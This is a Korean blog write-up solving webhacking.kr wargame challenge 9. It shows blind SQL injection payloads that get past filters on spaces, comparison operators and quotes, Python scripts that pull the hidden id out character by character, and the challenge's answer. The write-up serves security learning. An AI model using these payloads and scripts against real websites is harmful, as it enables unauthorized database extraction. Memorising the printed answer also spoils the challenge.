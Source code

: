 ```yaml
---
title: "[webhacking.kr] 9번 문제 풀이[Blind SQL Injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - blind sql injection
toc: true
toc_sticky: true
toc_label: "9번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 9번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
## 문제 화면 & 문제 분석
  처음 접속하면 그림처럼 1,2,3 페이지로 넘어갈 수 있게 되어 있습니다.

  ![image](https://user-images.githubusercontent.com/33647663/150671227-86f77835-8def-4b11-9892-3da591988d82.png)

  1,2,3을 각각 눌러보면 다음과 같은 화면이 나옵니다.

  ![image](https://user-images.githubusercontent.com/33647663/150671332-bb20d714-4707-4315-bdec-09489dcbab76.png)

  3번 페이지를 보니 no=3일때의 id를 구하면 되는 문제 입니다. 

  개발자 모드를 통한 소스코드나, 쿠키 값을 봐도 별다른 특이사항이 없으므로 blind sql injection 문제로 추정됩니다.

  위의 내용을 토대로 테스트를 진행해 보기위해 로컬에 DB를 다음과 같이 구성했습니다.

  ![image](https://user-images.githubusercontent.com/33647663/150671374-1d96ab3f-f296-450e-9841-249115a52fe0.png)

  
# 문제 풀이
## 풀이 설계
 페이지 구성이 간단해서 화면에 'Apple', 'Banana'를 띄워주는 부분에서 호출되는 SQL문은 다음과 같다고 추론할 수 있습니다.
 ```sql
 select id from chall9 where no = {}
 ```

 따라서 ```no={}```부분에 mysql 함수들을 이용해서 나오는 결과에 따라서 출력되는 id 값을 통해서 함수들의 값을 확인할 수 있습니다.

 예를들어 
 ```
 select id from chall9 where no = 1=1
 ```

 을 입력한다면 1=1 -> 1 이기 때문에 화면에는 

 ```
 select id from chall9 where no=1 
 ```
 의 결과 값인 Apple이 나올 것입니다.

 본 문제에서는 **=** 문자가 필터링 되어 있어서 테스트를 다음과 같이 수행해 봤습니다.

 ![image](https://user-images.githubusercontent.com/33647663/150671579-fa139650-aa6a-4c46-abc5-dd81ca04f15d.png)

 ![image](https://user-images.githubusercontent.com/33647663/150671561-a098530d-1a47-4b1f-ab8c-dcc2896fab9b.png)

 다음과 같이 함수의 결과가 각각 1,2 이기 때문에 화면에 no=1인 apple과 no=2인 banana가 출력되었습니다. 


## 필터링 우회
 우선 이번 문제는 필터링이 생각보다 많이 되어 있었습니다. 제가 생각한 대부분의 문자가 필터링 되어 있었는데 그중 가장 우회하기 힘든 것은 **공백**필터링과, **비교연산자** ('=','<','>')필터링 그리고 **문자열 필터링**(') 이었습니다.
 
 첫번째로 공백문자(%20,%09,%0a)가 모두 필터링 되어 있었기 때문에 여러 함수들을 사용하기 위해서는 다음처럼  '(', ')'를 이용해서 사용해야 했습니다.

 ![image](https://user-images.githubusercontent.com/33647663/150672184-4a075979-e14d-409f-85ec-29ccf344424a.png)
 
 두번째로, 단순 비교연산을 하기 위해 필요한 연산자들이 모두 필터링 되어 있어서 이를 우회하기 위해서 like 함수를 사용했습니다. 그리고 마지막으로 like 를 사용하려면 다음처럼 사용이 가능한데
 ```sql
    select substr('admin',1,1) like 'a'
 ```

 ![image](https://user-images.githubusercontent.com/33647663/150672123-1eafc525-4614-4587-8349-73736bd12110.png)

  (') 세미콜론이 필터링 되어 있어서 다음처럼 0x61같이 hex값으로 우회를 했습니다. 

  ![image](https://user-images.githubusercontent.com/33647663/150672149-d213b031-a0ed-49bc-95b9-5d1b4fa56700.png)

  그리고 이번 문제에서 인젝션을 수행하기 위해서는 다음의 개념을 정확하게 이해해야 합니다.

  우선 현재 테이블에 있는 정보가 다음과 같다고 할때,

  | id | no |
  |:---:|:---:|
  |apple|1|
  |banana|2|
  |secret_word|3|
  
  아래 sql문이 어떻게 동작하는지 살펴보겠습니다.

  ```sql
  select id from chall9 where no = (length(id)=5);
  ```

  우선 위의 쿼리문을 실행하면 다음과 같이 'apple'이 나옵니다.

  ![image](https://user-images.githubusercontent.com/33647663/150687330-1312ea33-3d9d-40b6-9369-bd974bdc631d.png)

  그러면 다음 sql 문은 어떻게 동작할까요? sql문이 익숙하지 않으신 분은 아마 'banana'가 나올거라고 생각할 수도 있는데 결과는 아무것도 출력되지 않습니다.

  ```sql
  select id from chall9 where no = (length(id)=6);
  ```

  ![image](https://user-images.githubusercontent.com/33647663/150687398-53b90d56-53f0-4d98-9faf-9d2bc02db4ef.png)

  이를 이해하기 위해서는 위의 쿼리문이 각각의 열에 대해서 다 다르게 작동된다는 것을 알아야 합니다. 먼저 length(id)=5 인경우에 대해서는 각각의 열에서 쿼리가 다음과 같이 변환됩니다.

  ```sql
  apple : length(id) = 5  --> 1
  select id from chall9 where no = 1
  --> apple의 no = 1이기 때문에 조건을 만족하여 출력

  banana : length(id) = 5  --> 0
  select id from chall9 where no = 0
  --> banana의 no = 2이기 때문에 출력되지 않음

  secret_word : length(id) =5 --> 0
  select id from chall9 where no = 0
  --> secret_word의 no = 3이기 때문에 출력되지 않음 
  ```


  같은 방식으로 length(id)=6인 경우에는 다음과 같이 1차적인 연산이 수행됩니다. 

  ![image](https://user-images.githubusercontent.com/33647663/150687850-b1f7a192-0b75-45ed-ab3d-976f0b9ad3bc.png)

  그 다음은 3개의 열에 각각
  ```sql
  apple : select id from chall9 where no =0;

  banana: select id from chall9 where no =1;
  
  secret_word : select id from chall9 whrer no=0;
  ```

  이렇게 나오게 됩니다. 여기까지만 봤을때, banana의 경우 출력값이 ```select id from chall9 where no =1```이기 때문에 그렇다면 ```apple```이 결과로 나오는 건가? 라고 생각할 수도 있지만, no = 1이 나올때는 length(id) = 6이기 때문에[id:banana인 경우] 1이 나온것이라서 이는 논리적으로 맞지 않습니다. 그래서 length(id) = 6인 banana값을 쿼리문을 통해서 찾고 싶다면 다음과 같은 방법을 사용해 줘야 합니다.

  ```sql
  select id from chall9 where no = if(length(id)=6,2,0);
  ```

  이렇게 된다면 length(id) = 6이 참이라면, if문에 의해서 결과값이 2가 되며 결과적으로는 'banana'열은
  ```sql
  select id from chall9 where no = 2
  ```
  가 되게 됩니다.

  ![image](https://user-images.githubusercontent.com/33647663/150688077-3f8be46b-d73a-4ea2-9d05-44c17cf76e8b.png)

  위의 개념들을 다 정리하고 난 후 파이썬 코드를 작성하여 자동화 시켰습니다.

  ---
  먼저 id의 길이를 알아내는 쿼리 입니다. 좀전에 설명했던 개념대로 if(length(id)like($길이),3,0) 형태로 쿼리를 작성해 줬습니다. 

  ```python
    url = "https://webhacking.kr/challenge/web-09/index.php?no="
    params = 'if(length(id)like({}),3,0)'
    TRUE_FLAG = 'Secret'

    # password의 길이를 구하는 쿼리
    for i in range(15):
        request_url = url + params.format(i)
        response = requests.get(request_url)
        if(TRUE_FLAG in response.text):
            print("id's length : " + str(i))

  ```
  
  그다음은 비밀번호의 길이만큼 substr을 이용하여 한 글자씩 알아내는 쿼리입니다. 맨 아래의 실행 결과를 보면 한 글자씩 a,b,c,d, ... 이렇게 비교를 해가면서 결과를 비교하는 과정입니다.

  ```python
    password = ''
    for i in range(1,12):
        for j in range(65,127):
            params = 'if(substr(id,{},1)like({}),3,0)'.format(i,hex(j))
            print(params)
            request_url = url + params
            response = requests.get(request_url)
            if(TRUE_FLAG in response.text):
                print('find {}st character : {}'.format(i,chr(j)))
                password += chr(j)
                break
   ```


  최종 실행결과는 다음과 같이 나왔으며, 비밀번호인 'alsrkswhaql'를 입력해 주면 문제가 풀립니다.

  ![image](https://user-images.githubusercontent.com/33647663/150688879-6ceaf98d-8c5c-4397-8e70-2198aa3bd480.png)

  ![image](https://user-images.githubusercontent.com/33647663/150688956-fe00747b-35df-4df7-965b-2e256b11e984.png)

